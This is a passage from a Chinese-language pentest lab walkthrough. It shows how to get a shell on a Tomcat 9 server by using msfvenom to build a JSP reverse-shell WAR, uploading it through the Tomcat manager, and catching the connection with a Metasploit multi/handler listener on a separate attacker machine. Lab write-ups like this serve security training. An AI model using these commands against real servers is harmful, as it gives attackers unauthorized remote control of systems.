 ![image-20220325100017190](https://gitee.com/xxb667/img/raw/master/img/image-20220325100017190.png)

查看一下我们上传的文件路径

```
find / -name xxb.war
```

路径为：

```
/usr/local/tomcat9/webapps/xxb.war
```

```
cd /usr/local/tomcat9/webapps
```

![image-20220325100358988](https://gitee.com/xxb667/img/raw/master/img/image-20220325100358988.png)

## 2.2 MSF直接反弹

### 2.2.1 使用MSF生成war包

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.81.131 LPORT=4444 -f war > shell.war
```

通过我们进入的管理员界面进行文件上传

把生成的文件拖到物理机上进行上传

文件名为：

```
shell.war
```

![image-20220325110615871](https://gitee.com/xxb667/img/raw/master/img/image-20220325110615871.png)

上传文件

![image-20220325110808291](https://gitee.com/xxb667/img/raw/master/img/image-20220325110808291.png)

找到执行的文件路径为

```
http://192.168.81.151:8080/shell
```

![image-20220325110954485](https://gitee.com/xxb667/img/raw/master/img/image-20220325110954485.png)

### 2.2.2 msf反弹shell

kali设置监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```
